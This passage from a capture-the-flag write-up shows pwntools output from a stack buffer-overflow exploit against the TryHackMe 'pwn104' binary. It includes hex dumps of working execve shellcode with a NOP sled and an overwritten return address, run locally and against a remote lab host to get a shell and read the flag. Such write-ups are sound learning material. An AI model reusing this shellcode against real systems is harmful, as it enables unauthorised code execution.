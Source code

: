 ```bash
    00000050  90 90 90 90  90 90 90 90  d0 93 8c d5  ff 7f 00 00  │····│····│····│····│
    00000060  0a                                                  │·│
    00000061
[*] Switching to interactive mode
$ whoami
[DEBUG] Sent 0x7 bytes:
    b'whoami\n'
[DEBUG] Received 0x3 bytes:
    b'ap\n'
ap
$  

```

Works!

## Remote Exploitation

The same script runs the exploit remotely.

```bash
$ ./exploit 
...
[*] [+] buf address on stack: 0x7ffd8c844640
[DEBUG] Sent 0x61 bytes:
    00000000  31 c0 48 bb  d1 9d 96 91  d0 8c 97 ff  48 f7 db 53  │1·H·│····│····│H··S│
    00000010  54 5f 99 52  57 54 5e b0  3b 0f 05 90  90 90 90 90  │T_·R│WT^·│;···│····│
    00000020  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
    *
    00000050  90 90 90 90  90 90 90 90  40 46 84 8c  fd 7f 00 00  │····│····│@F··│····│
    00000060  0a                                                  │·│
    00000061
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x19 bytes:
    b'flag.txt\n'
    b'pwn104\n'
    b'pwn104.c\n'
flag.txt
pwn104
pwn104.c
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x1e bytes:
    b'THM{0h_n0o0o0o_h0w_Y0u_Won??}\n'
THM{0h_n0o0o0o_h0w_Y0u_Won??}
$ 
[*] Closed connection to 10.10.208.103 port 9004

```

Nice catch :).

---

[https://github.com/apaonessaa](https://github.com/apaonessaa)

